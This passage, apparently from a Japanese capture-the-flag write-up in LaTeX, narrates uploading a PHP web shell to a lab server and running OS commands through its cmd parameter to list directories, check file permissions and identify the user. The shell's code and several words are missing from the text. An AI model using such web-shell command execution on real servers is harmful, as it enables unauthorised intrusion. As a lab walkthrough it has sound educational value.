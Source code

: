 ということで、直ちにスクリプトを書く。



これをなどと適当なPHPファイルとして設置すれば、
あらゆるOSコマンドを動かすことが出来るようになる。

\begin{screen}
\centering
gomi.phpをアップロードしました。
\end{screen}

「おーぴー、にをアップした。
これで任意のOSコマンドを使える」

さて、とりあえずをしてみるか。
\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=ls ../}を実行してみよう。

\begin{lstlisting}
HINT-1:_Use_SSH
HINT-2:_Append_Only
images
index.php
index.php
\end{lstlisting}

？なんだこれは？
まあとりあえず、を見てみるか。

\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=ls ../../}へアクセス。

\begin{lstlisting}
FLAG
eng.txt
index.html
jpn.txt
stage1.cgi
stage2
stage3xYz
stage3xYz
\end{lstlisting}

なるほどね。
最初に見えたApacheのファイル一覧みたいなものは、
単に見た目をそっくりに偽装したが置いてあっただけか。

さて、FLAGのパーミッションは確認した方がいいな。
\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=ls -al ../../}だ。



なるほど、になればに書けるってわけか。

しかし先ほどのヒント、「Use\_SSH」とはどういうことなのだろうか。
SSHでログインするにしても、ユーザー名も分からぬこの状況ではどうしようもない……。
いや、今このを実行しているユーザーならば特定出来る。
\url{http://10.2.0.3/stage3xYz/images/gomi.php?cmd=id}だ。

\begin{lstlisting}
uid=502(stage4) gid=502(stage4) groups=502(stage4),0(root) uid=502(stage4) gid=502(stage4) groups=502(stage4),0(root) 
\end{lstlisting}

